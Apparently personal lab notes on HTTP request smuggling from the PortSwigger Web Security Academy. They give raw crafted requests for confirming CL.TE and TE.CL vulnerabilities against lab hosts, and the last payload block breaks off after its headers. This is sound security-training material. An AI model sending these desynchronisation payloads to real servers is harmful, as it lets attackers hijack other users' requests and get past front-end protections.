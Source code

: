 If you select ALL the text, from the x=1 INCLUDED, and you go until the first byte of the 2nd request (G from GPOST), you will see this length is 0x5c. This is the value you are specifying in the body of the first request! 

---
### HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

To identify this is a CL.TE vulnerability, you can send a request like this one:
First, <u>uncheck the "Update Content-Length" option</u>
```text
POST / HTTP/1.1
Host: 0aa700f60438b4318157f227007b00d5.web-security-academy.net
Cookie: session=t4Rd2cyvcRYzbtbqzOwlTVzsyYqF7hTm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Content-Length: 4
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
\r\n
0\r\n
\r\n
a\r\n

```

After that check, you can send this request:
<u>Remember update the content length</u>
```text
POST / HTTP/1.1
Host: 0aa700f60438b4318157f227007b00d5.web-security-academy.net
Cookie: session=t4Rd2cyvcRYzbtbqzOwlTVzsyYqF7hTm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /AAAA HTTP/1.1
X-Ignore: x
```

The second time you send this request, should be 404 Not Found

---
### HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

Let's validate with our SECOND REQUEST, (see it here, [[0. BSCP]])
And we see it responds with a Server Error: Communication timed out, so we know for sure it's a TE.CL vulnerability!

Let's build our payload:
```text
POST / HTTP/1.1
Host: 0adc00c303c05f19864be054004b0075.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=1
```